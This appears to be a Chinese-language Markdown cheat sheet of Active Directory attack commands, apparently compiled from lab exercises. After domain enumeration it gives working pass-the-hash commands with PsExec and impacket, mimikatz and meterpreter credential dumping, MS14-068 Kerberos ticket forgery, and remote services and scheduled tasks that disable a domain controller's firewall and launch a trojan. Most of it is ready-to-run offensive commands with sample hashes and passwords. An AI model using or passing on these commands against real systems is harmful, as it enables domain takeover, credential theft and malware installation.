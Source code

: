 [干货 | 域内敏感信息搜集](https://mp.weixin.qq.com/s/nFOAb__c162gMhve3MEh_Q)

## 信息收集

```shell
net time /domain # 判断当前主机是否在域内
net user /domain
获取域内用户的详细信息：
wmic useraccount get /all

net group "domain controllers" /domain # 查看域管理员 OWA$
ping OWA # 域控主机即可获得域控IP
# 查看所有域成员计算机列表
net group "domain computers" /domain
# 查看域管理员
Net group "domain admins" /domain
# 登陆本机的域管理员
net localgroup administrators /domain

# 三种情况
##1. 存在域，但当前用户不是域用户，提示说明权限不够
##2. 存在域，并且当前用户是域用户
##3. 当前网络环境为工作组，不存在域
```


## 攻击 

```shell
# PSTools 使用哈希传递(PTH)攻击 https://mp.weixin.qq.com/s/6BYAeo-5I1XMejyC5ec1pw
PsExec.exe \\192.168.52.138 -u god\administrator -p hongrisec@2022 -s cmd #成功，拿下域控了。
# impact: pip install impacket, win下pyexec用对应的py文件 python psexec.py xxxxxxx
psexec -hashes :8c535a2d84c3b21059d667639bb89db5 god/administrator@192.168.52.138 #成功，拿下域控了。
psexec -hashes :8c535a2d84c3b21059d667639bb89db5 god/administrator@192.168.52.141 #成功，拿下域控了。
# impact: 连接cmd
proxychains python3 wmiexec.py 'administrator:123qwe!ASD@192.168.93.20'
# smbclient 上传文件
proxychains smbclient //192.168.93.20/c$ -U administrator%password
smb > put mimikatz.exe # 上传文件

# msf meterpreter
meterpreter > getsystem
meterpreter > getuid
meterpreter > ps     # 非system时, 查看system权限进程，迁移
meterpreter > migrate 216
meterpreter > load kiwi  # 读取密码, 如果是64位的迁移到64位进程才能看明文
meterpreter > getsystem
meterpreter > creds_kerberos

# mimikatz
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit" > log.log


win7共享给域控
copy c:\phpstudy\srn7final.exe \\192.168.52.138\c$
设置计划任务启动木马
schtasks /create /tn "test123456" /tr C:\srn7final.exe /sc once /st 14.25 /S 192.168.52.138 /RU System /u administrator /p "hongrisec@2021"
```
### ms14-068生成票据, 注入票据
[L1](https://mp.weixin.qq.com/s/tTuH3_YY_C0AuPSLfo8mTQ) [L2](https://www.freebuf.com/articles/web/340783.html)


整理信息

```ts
USER：douser
Domain：DEMO.COM
NTLM：bc23b0b4d5bf5ff42bc61fb62e13886e
SID：S-1-5-21-979886063-1111900045-1414766810-1107
PASSWORD：Dotest123
```
上传MS14-068

```shell
MS14-068.exe -u douser@DEMO.COM -p Dotest123 -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130
dir 
```

通过 mimikatz 导入TGT票据将写入，从而提升为域管理员
```bat
kerberos::purge
kerberos::ptc TGT_douser@DEMO.COM.ccache
exit

dir \\WIN-ENS2VR5TR3N\c$


:: 通过文件共享将马复制到域控中
:: 运行方式2 sc , 关闭域控防火墙 上马
:: cmd 下切换高级用户权限
net use \\192.168.138.138\ipc$ "dc123.com" /user:"administrator"
sc \\WIN-ENS2VR5TR3N create ProFirewall binpath= "netsh advfirewall set allprofiles state off"
sc \\WIN-ENS2VR5TR3N start ProFirewall
sc \\WIN-ENS2VR5TR3N create Startup binpath= "C:\shell.exe"
sc \\WIN-ENS2VR5TR3N start Startup

:: 运行方式1 schtasks
(
echo netsh advfirewall set allprofiles state off
echo shell.exe
) >1.bat
copy 1.bat \\WIN-ENS2VR5TR3N\c$ /y
copy shell.exe \\WIN-ENS2VR5TR3N\c$ /y
:: 运行方式2 schtasks
schtasks /create /S WIN-ENS2VR5TR3N /TN "test" /TR c:/1.bat /SC MINUTE /ST 21:27 /ru system /f

:: 下一步 psexec
```

### shadow-credentials
[Link](https://zhuanlan.zhihu.com/p/581451146)

条件: 以下账户拥有 msDS-KeyCredentialLink 属性的写入权限：

* 域管理员账户
* Key Admins 组中的账户
* Enterprise Key Admins 组中的账户
* 对 Active Directory 中的对象具有 GenericAll 或 GenericWrite 权限的帐户
* 机器账户对自身的 msDS-KeyCredentialLink 属性拥有写入权限


# Article

[域内定位个人PC的三种方式](https://mp.weixin.qq.com/s/uXTo2AbmvMeNesR8rAjImw)